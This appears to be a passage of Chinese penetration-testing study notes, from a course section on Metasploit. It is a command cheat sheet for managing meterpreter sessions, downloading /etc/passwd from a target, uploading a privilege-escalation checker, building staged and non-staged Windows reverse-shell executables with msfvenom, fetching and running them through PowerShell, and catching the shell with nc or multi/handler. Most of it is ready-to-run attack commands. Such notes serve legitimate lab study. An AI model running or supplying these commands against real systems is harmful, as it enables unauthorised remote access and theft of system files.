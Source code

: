 获得shell，置于后台，查看所有shell信息，进入后台指定shell

```armasm
shell

Ctrl+Z再按y可以把shell放在后台
channel -l
channel -i 1
```

查看本地路径，切换本地路径，下载文件，读取本地文件，上传文件，查看目标机器文件，退出

```armasm
meterpreter > lpwd

lcd /home/kali/Downloads
download /etc/passwd
lcat /home/kali/Downloads/passwd
upload /usr/bin/unix-privesc-check /tmp/
ls /tmp
exit
```

### 20.2.3 可执行有效载荷

查看、生成（非分段）、下载、执行、获得shell

```armasm
msfvenom -l payloads --platform windows --arch x64
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe
.\nonstaged.exe
nc -nvlp 443
```

分段载荷需要在MSF的multi/handler下使用，否则nc监听拿到shell无法执行命令

生成，启动msf，使用multi/handler

```armasm
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o staged.exe

use multi/handler
set payload windows/x64/shell/reverse_tcp
show options
set LHOST 192.168.119.2
set LPORT 443
run
```

后台运行，查看job

```armasm
run -j
jobs
```

## 20.3 使用MSF后渗透
